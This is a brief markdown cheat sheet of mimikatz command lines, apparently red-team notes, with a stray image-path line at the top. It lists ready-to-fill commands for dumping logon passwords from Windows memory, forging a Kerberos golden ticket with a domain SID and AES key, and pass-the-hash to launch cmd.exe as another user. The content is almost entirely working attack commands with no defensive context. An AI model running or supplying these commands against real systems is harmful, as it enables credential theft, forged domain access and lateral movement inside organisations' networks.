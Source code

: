 # Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# make a Golden ticket
```console
mimikatz "kerberos::golden /user:<username> /domain:<domain> /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>" "exit"
```

# Path-the-hash
```console
mimikatz "sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe" "exit"
```
